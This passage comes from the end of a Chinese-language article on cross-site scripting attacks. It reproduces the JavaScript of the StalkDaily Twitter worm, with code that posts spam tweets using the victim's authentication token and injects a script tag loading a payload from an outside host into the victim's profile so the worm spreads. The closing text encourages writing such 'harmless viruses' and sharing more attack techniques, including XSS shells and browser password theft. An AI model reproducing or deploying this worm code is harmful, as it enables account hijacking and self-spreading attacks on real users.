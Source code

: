 ```cpp
        var randomUpdate=new Array();
        randomUpdate[0]="Dude, www.StalkDaily.com is awesome. What's the fuss?";
        randomUpdate[1]="Join www.StalkDaily.com everyone!";
        randomUpdate[2]="Woooo, www.StalkDaily.com :)";
        randomUpdate[3]="Virus!? What? www.StalkDaily.com is legit!";
        randomUpdate[4]="Wow...www.StalkDaily.com";
        randomUpdate[5]="@twitter www.StalkDaily.com";

        var genRand = randomUpdate[Math.floor(Math.random()*randomUpdate.length)];

        updateEncode = urlencode(genRand);

        var xss = urlencode('http://www.stalkdaily.com"></a><script src="http://mikeyylolz.uuuq.com/x.js"></script><a ');

        var ajaxConn = new XHConn();    //创建 XMLHttpRequest 对象
        //下列代码用于发送虚假的 twitte 信息
        ajaxConn.connect("/status/update", "POST", "authenticity_token="+authtoken+"&status="+updateEncode+"&tab=home&update=update");   
        var ajaxConn1 = new XHConn();
        //修改设置，以插入恶意脚本进行传播
        ajaxConn1.connect("/account/settings", "POST", "authenticity_token="+authtoken+"&user[url]="+xss+"&tab=home&update=update");
}
setTimeout("wait()",3250);      //每 3 秒左右就调用 wait()函数

```

偶而写写无害病毒，对于提高编程水平还是有一定帮助的，而且还能引起各网站对安全方面的重视，进而提高网站的安全性，也算是为安全行业做点贡献。至于那些具有攻击性的病毒还是少写为妙，不然法律的制裁是免不的，特别是最近几年，关于信息安全方面的法律也已经逐步完善了。

**结论**
跨站脚本攻击的方式主要还是依靠利用者的 javascript 编程水平，你的编程水平够高，就能玩出更高级的花样出来。本文这里讲述的也只是冰山一角，还有其它 Attack API，XSS shell，读取浏览器密码，攻击 Firefox 插件……其它更多的方法还有待大家去挖掘和利用，如果你有其它更好、更有趣的攻击方式，希望可以共同分享一下。